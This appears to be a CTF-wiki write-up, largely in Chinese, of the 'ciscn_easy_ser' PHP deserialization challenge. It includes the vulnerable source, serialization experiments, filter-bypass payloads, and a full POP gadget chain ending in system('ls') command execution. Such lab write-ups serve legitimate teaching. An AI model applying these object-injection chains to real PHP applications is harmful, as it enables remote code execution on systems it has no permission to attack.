 # ciscn_easy_ser
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



index.php:

```
<?php
error_reporting(0);
highlight_file(__FILE__);
class Test{
    public $public_key;
    public $private_key;
    function __wakeup(){
        if($public_key !== $private_key)
        {
            die("You can't");
        }
    }
    function getHint()
    {
        echo file_get_contents('./demo.php');
    }
 
}

$a = $_GET['a'];
if(strpos($a,'key') !== false){
    die("No!!!");
}
else
{
    unserialize($a)();
}
?>
```

（首先部署到我们的服务器上）

一个反序列化，比较奇怪的是unserialize($a)()后面的这个括号

比赛中我想的是将类作为函数调用，会触发`__inoke()`, 而`__wakeup()`用cve去过，然后找个原生类做跳板啥的(当然是没找到)。

我们先做一点小实验：

```
<?php
class Test
{
    public $a;
    public $b;
    function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        echo "__wakeup()\n";
    }
    function __invoke()
    {
        // TODO: Implement __invoke() method.
        echo "__invoke()\n";
    }
    function func()
    {
        echo "func()\n";
    }
}
$a = "Test::func";
$f = serialize($a);
unserialize($f)();//静态调用

$b = new Test();
$c = [$b,'func'];echo $c();
$d = serialize($c);
unserialize($d)();


输出：
func()//来自静态方法调用
func()//来自echo$c()
__wakeup()//来自unserialize()
func()//来自unserialize()
ps:静态方法调用虽然会报错但是仍然会有输出
```

我们发现：

- 静态调用并没有触发__wakeup
- [$b,'func'] ()的形式能够直接调用b对象中的方法func
- [$b,'func'] ()经过反序列化后能够触发__wakeup

因此payload:

```
1.
$a = "Test::getHint";
echo serialize($a);

2.
$test = new Test();
$test->public_key = 1;
$test->private_key = 2;
$a = [$test, 'getHint'];
echo serialize($a);
然后wakeup用string，key用16进制过k::\6b
```

然后进入返回demo.php

control+u查看源码

```php
<?php
class Fake{
	public $firm;
	public $test;
	public function __set($firm,$test){//设置一个类成员变量时调用
	$test = "No,You can't";
	$firm = unserialize($firm);
	call_user_func($firm,$test);
  }
}
class Temp{
	public $pri;
	public $fin=1;
	public function __destruct()
	{
		$a=$this->action;
       $this->pri->$a = $this->fin;
	}

}

class OwO{
    public $fc;
    public $args;	
	function run()
	{

		return ($this->fc)($this->args);

	}
}
$d = $_GET['poc'];
unserialize($d);
?
```

这个就比较正常的pop链了入口__destruction()

```PHP
$a = new Temp();
$b = new OwO();
$c = new Fake();
$b->fc = "system";
$b->args = "ls";
$arr = [$b,'run'];
$d = serialize($arr);
$a->pri = $c;
$a->action = $d;
echo serialize($a);

//具体一点就是：Temp::__destruct->Fake::__set->call_user_func->OwO::run->system('ls')
```

![2](ciscn_easy_ser.assets/2.png)

最后可以看到代码执行。